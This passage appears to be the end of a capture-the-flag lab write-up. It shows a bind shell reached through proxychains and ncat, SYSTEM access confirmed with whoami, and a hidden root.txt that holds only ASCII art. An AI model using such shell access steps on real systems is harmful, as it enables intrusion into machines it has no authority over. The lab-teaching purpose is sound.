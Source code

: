 And now I have a bind shell as SYSTEM:

```
# proxychains nc -nv 127.0.0.1 4300
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4300.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

It looks like the Donkeys have one final troll, the `root.txt` is hidden and doesn't contain the flag:

```
C:\Users\Administrator\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\Users\Administrator\Desktop

02/06/2019  11:20 AM               282 desktop.ini
02/09/2019  03:37 PM             1,958 root.txt
               2 File(s)          2,240 bytes
               0 Dir(s)  92,184,543,232 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt

                                __...----..
                             .-'           `-.
                            /        .---.._  \
                            |        |   \  \ |
                             `.      |    | | |        _____
                               `     '    | | /    _.-`      `.
                                \    |  .'| //'''.'            \
                                 `---'_(`.||.`.`.'    _.`.'''-. \
                                    _(`'.    `.`.`'.-'  \\     \ \
                                   (' .'   `-._.- /      \\     \ |
                                  ('./   `-._   .-|       \\     ||
                                  ('.\ | | 0') ('0 __.--.  \`----'/
                             _.--('..|   `--    .'  .-.  `. `--..'
               _..--..._ _.-'    ('.:|      .  /   ` 0 `   \
            .'         .-'        `..'  |  / .^.           |
           /         .'                 \ '  .             `._
        .'|                              `.  \`...____.----._.'
      .'.'|         .                      \ |    |_||_||__|
     //   \         |                  _.-'| |_ `.   \
     ||   |         |                     /\ \_| _  _ |
     ||   |         /.     .              ' `.`.| || ||
     ||   /        ' '     |        .     |   `.`---'/
   .' `.  |       .' .'`.   \     .'     /      `...'
 .'     \  \    .'.'     `---\    '.-'   |
)/\ / /)/ .|    \             `.   `.\   \
 )/ \(   /  \   |               \   | `.  `-.
  )/     )   |  |             __ \   \.-`    \
         |  /|  )  .-.      //' `-|   \  _   /
        / _| |  `-'.-.\     ||    `.   )_.--'
        )  \ '-.  /  '|     ''.__.-`\  | 
       /  `-\  '._|--'               \  `.
```